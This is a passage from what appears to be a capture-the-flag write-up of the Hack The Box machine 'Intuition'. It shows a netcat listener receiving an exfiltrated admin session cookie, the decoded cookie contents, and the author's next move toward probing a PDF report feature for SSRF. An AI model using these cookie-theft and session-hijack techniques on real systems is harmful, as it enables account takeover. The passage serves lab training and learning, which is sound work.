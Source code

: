 setup listener and click set high priority
and we received this on the listener
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/intuition]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.11.15] 37298
GET /?cookie=dXNlcl9kYXRhPWV5SjFjMlZ5WDJsa0lqb2dNU3dnSW5WelpYSnVZVzFsSWpvZ0ltRmtiV2x1SWl3Z0luSnZiR1VpT2lBaVlXUnRhVzRpZlh3ek5EZ3lNak16TTJRME5EUmhaVEJsTkRBeU1tWTJZMk0yTnpsaFl6bGtNalprTVdReFpEWTRNbU0xT1dNMk1XTm1ZbVZoTWpsa056YzJaRFU0T1dRNQ== HTTP/1.1
Host: 10.10.16.31:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dashboard.comprezzor.htb/
Connection: keep-alive
```
after decoding the value of user_data is `{"user_id": 1, "username": "admin", "role": "admin"}|34822333d444ae0e4022f6cc679ac9d26d1d1d682c59c61cfbea29d776d589d9`
now we have access to admin account and when we visit the dashboard we find changes
<img src="/assets/img/htb/intuition/capture2.png" alt="admin">


Create PDF Report is the most interesting of them as it asks for url so it maybe vulnerable to SSRF.
I setup a listener and submitted this url
<img src="/assets/img/htb/intuition/capture3.png" alt="pdfGen">
